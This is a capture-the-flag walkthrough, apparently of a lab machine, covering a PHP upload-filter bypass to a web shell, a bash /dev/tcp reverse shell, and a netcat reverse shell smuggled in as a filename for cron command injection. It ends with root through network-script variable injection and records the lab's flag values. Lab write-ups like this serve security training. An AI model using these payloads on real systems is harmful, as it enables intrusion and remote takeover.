 Start: 2026-10-02, 11:15

IP:
```
10.129.65.225
```
---

ports

```
sudo nmap -p- -Pn -n --min-rate=5000 -vv 10.129.65.225 -oG network/nmap_ports.txt
```



22 SSH
80 HTTP
443 HTTPS closed

service 

```
sudo nmap -sCV -p22,80,443 -vv --min-rate=5000 10.129.65.225 -oN network/nmap_service.txt
```



OpenSSH 7.4
Apache 2.4.6
PHP 5.4.16
OS: CentOS

HTTP - 80

Browsing: http://10.129.65.225/


New "FaceMash", etc

Fuzzing

```
ffuf -u http://10.129.65.225/FUZZ -w /opt/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```



backup, uploads

Browsing /backups



Download `backup.tar`

```
tar -xvf backup.tar
```



Source code

Browsing uploads shows only a dot (.)

Browsing `photos.php`


Gallery of uploaded photos

Looking at upload.php code


It filters out any file bigger than 60000 bytes and/or with filename different than `*.jpg/png/gif/jpeg`

Trying to upload a malicious PHP file for RCE

Payload:

```
<?php system($_GET['cmd']); ?>
```

Saving to `shell.php.png`

Trying to upload "Invalid"

After trying different bypasses, uploaded the file



Uploading again using one filter at a time see that the double extension/null byte in filename and magic byte in content can bypass the filter

filename
```
shell.php.gif
```

GIF magic byte
```
GIF89a
```


Without magic byte


Browsing photos.php


Ctrl + U


Click on any of the uploaded malicious PHP files
Enter the cmd parameter and command. (the code changes file name to client IP)

```
view-source:http://10.129.65.225/uploads/10_10_14_204.php.gif?cmd=id
```


RCE as `apache`

Reverse shell

`bash -c 'bash -i &> /dev/tcp/10.10.14.204/9001 0>&1'`
`bash+-c+'bash+-i+%26>+/dev/tcp/10.10.14.204/9001+0>%261'`

```
view-source:http://10.129.65.225/uploads/10_10_14_204.php.gif?cmd=bash+-c+%27bash+-i+%26%3E+/dev/tcp/10.10.14.204/9001+0%3E%261%27
```

Set listener 

```
nc -nlvp 9001
```



Connected as `apache`

See user `guly`. `/home/guly`



Cant read `user.txt`

Can read `check_attack.php` and `crontab.guly`. Copy to local system to read better.



The script sends checks for malicious files and removes them. Path (`$path`) is the uploads path, then includes the filename (`$value`) ,which attacker controls, on a system execution sink (`exec()`). The script executes the commands if the filename does not follow the pattern name seen previously (`10_10_10_10.*`). The script executes periodically by set cron job (`crontab.guly`).

OS command injection, using the filename as injection point.

Since a file cant have certain characters like / because of the regex filter, for reverse shell, use the target system Netcat to execute system commands.

```
...
-c, --sh-exec <command>    Executes the given command via /bin/sh
...
```


```
cd /var/www/html/uploads
```

Filename
```
;nc -c bash 10.10.14.204 9001
```



After a moment, a minute



Shell as `guly`
user.txt: `ea641be107e8e07d315e57ae3966c21d`

End: 2026-10-02, 13:40

Break

Start: 2026-10-02, 14:15

Enumerating sudo privileges

```
sudo -l
```



guly is allowed to run `/usr/local/sbin/changename.sh` as root without a password required



The script is editing variables for an interface (`guly0`) configuration `/etc/sysconfig/network-scripts/ifcfg-guly` and turning the interface up. It filters out with a regex.

---
**Hint**: Watching https://www.youtube.com/watch?v=H3t3G70bakM at minute 37 can see the injection is in the variable but with just a space (no separator), and can simply run `bash` command.

---

```
sudo /usr/local/sbin/changename.sh
```

Input ` bash` in any of the variables.


Shell as root
root.txt: `2d07ed3372ad26cb7612ee51537ab9ed`

End: 2026-10-02, 15:10

---

### Post testing
#### Time frame
Start: 2026-10-02, 11:15
End: 2026-10-02, 13:40
Start: 2026-10-02, 14:15
End: 2026-10-02, 15:10

Total time: 3h 20min

#### Techniques
- File upload PHP with file extension whitelist (`.jpg, .png, .gif`...) filter bypass - Magic byte
- OS command injection in script with user controlled variable (filename) in `exec()` sink
- CentOS/RHEL network scripts (`ifup`/`ifcfg`) abuse - Command execution 
##### Sources
- **Hint** min 37: https://www.youtube.com/watch?v=H3t3G70bakM
